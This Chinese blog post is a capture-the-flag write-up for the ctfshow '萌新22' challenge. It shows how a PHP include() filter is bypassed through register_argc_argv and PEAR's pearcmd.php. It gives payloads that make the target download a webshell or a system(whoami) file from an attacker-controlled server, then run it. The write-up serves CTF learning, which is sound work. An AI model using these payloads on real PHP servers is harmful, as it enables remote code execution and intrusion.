







<!--yml
category: 未分类
date: 2022-04-26 14:54:47
-->

# ctfshow 萌新22 （类似级客巅峰web4）_Firebasky的博客-CSDN博客_ctf p神

> 来源：[https://blog.csdn.net/qq_46091464/article/details/108954166](https://blog.csdn.net/qq_46091464/article/details/108954166)

> 在之前ctfshow平台的萌新22，大家都认为是无解的，题目也介绍了"还能搞，阿呆表示将直播倒立放水"。但是在级客巅峰结束的那天晚上，群里的师傅介绍说，如果修改了php.ini里面的配置(register_argc_argv)可以做出来。最后是真的做出来了。
> 使用阿呆~~~？
> 

> 下面是自己的思考，感谢Guoke师傅和ha1c9on师傅的帮助

### 一. 源代码

```
<?php
if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\:|\/|\\\/i",$c)){
               include($c.".php");
       }
}else{
        highlight_file(__FILE__);
}
?> 
```

### 二. register_argc_argv的介绍

通过可变信息通过GET方法是类似于参数传递给可执行文件。许多语言处理等方面argc和argv参数。 argc是参数计数，并，argv是索引数组，包含的参数。如果您想声明变量`$argc`和`$argv`和模仿这种功能，使register_argc_argv。
`$argc`变量是⽤于记录数组的⼤⼩
`$argv`变量是⽤于记录输⼊的参数。
**这里借p神的介绍**
经过简单测试，发现⽼版本（测试版本为5.2.17）默认为 On，新版本（测试版本为 5.4.45、5.5.9、
7.3.4）默认为 Off
**奇淫技巧**
这个是自己看p神的知识星球知道的。
我们是可以通过`$_GET`或者`$_POST`的⽅式来操控
`$_SERVER['argv']`的值的，但是如果测试可以发现，如果直接传⼊值，⽆论多少个参数，`$argc`的
个数始终是 1

```
 <?php
error_reporting(0);
$a=$_SERVER['argv'];
var_dump($a);
?> 
```

而我们可以通过`+`来进行分隔符。
(这里不解释，需要知道的可以去p神的知识星球了解)


> 拓展：这个小trick,自己前几天出个一个题，如果有兴趣的可以去ctfshow平台的web入门126去试一试。

### 三. PEAR的介绍

[如何熟悉PEAR的使用？](https://www.cmdschool.org/archives/2763)
在linux下面安装直接输入命令`apt install php-pear`

### 四. 解题

[参考链接](https://khack40.info/camp-ctf-2015-trolol-web-write-up/)
这个题只需要利用文章里面的第一个方法：
`下载一个档案文件(php文件)并使用lfi`
而这个下载的命令是pearcmd.php里面有的
在pearcmd.php目录下面输入`php pearcmd.php -help`


`而正好，这个题开启了register_argc_argv可以通过+来分隔命令，先进行包含pearcmd.php然后在通过+分隔符来执行download命令`

#### 方法一

这个方法是`Guoke`师傅告诉我的,可以在我们的vps上面创建一个eval.php里面内容是

```
<?php
echo "<?php system(whoami);?>";
?> 
```

然后在题目上传值
`?c=pearcmd&+download+http:/xx.xx.xx.xx/eval.php`
最后访问eval.php就执行成功


#### 方法二

是ha1c9on师傅告诉我的，可以在`~目录`下创建一个shell.php 内容就是一句话木马.
然后通过python3开一个http服务 `python3 -m http.server 81`
`访问的时候就是~目录下面的文件`
`当我们控制目标服务器去访问eval.php的时候会自动下载到目标的服务器上面`


payload:`?c=pearcmd&+download+http://xx.xx.xx.xx:81/shell.php`

**然后访问并执行命令**
**获得flag**


### 总结：

方法一：
实现的原因是下载的过程会执行php代码。这里自己测试了一下如果，利用方法一，文件内容是
`<?php system(whoami)?>`,然后访问这个文件会输出www-data。但是文件内容也是www-data。所以就验证了我的解释。
方法二：
实现的原因是我们通过python3开一个服务，而php文件的路径不在网站根目录下面就不会当php解析就会自动下载。

如果，文章也不足的地方希望师傅们指出。共同进步。